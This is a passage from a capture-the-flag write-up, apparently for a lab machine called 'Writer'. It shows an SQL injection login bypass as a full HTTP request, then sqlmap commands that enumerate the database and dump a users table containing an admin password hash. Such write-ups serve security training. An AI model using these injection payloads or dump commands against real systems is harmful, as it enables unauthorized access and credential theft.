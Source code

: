## Gaining access

Well, I don't get some vectors from enumeration except administrative path. I tried to do a simple SQL injection and it worked.

```
POST /administrative HTTP/1.1
Host: writer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://writer.htb
Connection: close
Referer: http://writer.htb/administrative
Upgrade-Insecure-Requests: 1

uname=admin'+or+1%3d1+#&password=admin
```

```
<h3 class="animation-slide-top">Welcome admin</h3>
                </header>
                <p class="success-advise">Redirecting you to the dashboard. If you are not redirected then click the button below to be redirected.</p>
                <a class="btn btn-primary btn-round mb-5" href="/dashboard">CLICK HERE</a>
                <footer class="page-copyright">
                    <p>© Writer.HTB 2021. All RIGHT RESERVED.</p>
```

If you try to go to something like [`http://writer.htb/dashboard/stories.php`](http://writer.htb/dashboard/stories.php). You will receive 404 not found, which indicates that it is not a PHP web app. We obtained the access to admin panel, but it doesn't contain something that we could exploit in order to get code execution. I'll try to use sqlmap to get the most impact from SQLi. sqlmap identified this vulnerable parameter name as a parameter that is vulnerable to union attack and also time-based.

```bash
[10:07:27] [INFO] retrieved: information_schema
[10:09:40] [INFO] retrieved: writer
```

```bash
sqlmap -u http://writer.htb/administrative --data="uname=&password=" --dbms=mysql -D writer --dump
[10:15:37] [INFO] retrieved: site
[10:16:00] [INFO] retrieved: stori
[10:16:20] [ERROR] invalid character detected. retrying..
[10:16:20] [WARNING] increasing time delay to 2 seconds
es
[10:16:32] [INFO] retrieved: users
```

```bash
sqlmap -u http://writer.htb/administrative --data="uname=&password=" --dbms=mysql -D writer -T users --dump
Database: writer
Table: users
[1 entry]
+----+------------------+--------+----------------------------------+----------+--------------+
| id | email            | status | password                         | username | date_created |
+----+------------------+--------+----------------------------------+----------+--------------+
| 1  | admin@writer.htb | Active | 118e48794631a9612484ca8b55f622d0 | admin    | NULL         |
+----+------------------+--------+----------------------------------+----------+--------------+
```
